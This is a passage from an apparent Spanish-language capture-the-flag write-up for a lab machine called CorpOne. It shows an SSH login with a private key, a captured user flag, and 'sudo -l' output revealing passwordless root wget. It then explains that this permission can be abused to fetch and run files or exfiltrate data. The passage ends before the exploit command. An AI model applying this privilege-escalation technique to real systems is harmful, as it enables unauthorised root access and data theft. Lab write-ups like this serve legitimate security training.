 ```bash
(zikuta㉿zikuta)-[~/Desktop]
└─$ ssh jessie@10.10.180.210 -i id_rsa
The authenticity of host '10.10.180.210 (10.10.180.210)' can't be established.
ED25519 key fingerprint is SHA256:6fAPL8SGCIuyS5qsSf25mG+DUJBUYp4syoBloBpgHfc.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:5: [hashed name]
    ~/.ssh/known_hosts:7: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.180.210' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

```

Me conecte exitosamente por ssh y busque la user flag en la Carpeta `Documents`

```bash
cat Documents/user_flag.txt
057c67131c3d5e42dd5cd3075b198ff6
```

# Escalada de Privilegios

Con `sudo -l` vi que `jessie` puede usar `wget` como root **sin contraseña**:

```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```

Este hallazgo es crucial, ya que el usuario puede ejecutar el binario `wget` como root sin necesidad de contraseña. Esto nos abre la puerta a una escalada de privilegios creativa, ya que `wget` puede ser usado para **descargar y ejecutar archivos arbitrarios** si lo combinamos correctamente con otros comandos.

Para explotar esto, consultamos [GTFOBins](https://gtfobins.github.io/) buscando “wget”, lo cual nos confirmó que podemos usar la siguiente técnica:

#### Exfiltrando archivos con HTTP POST
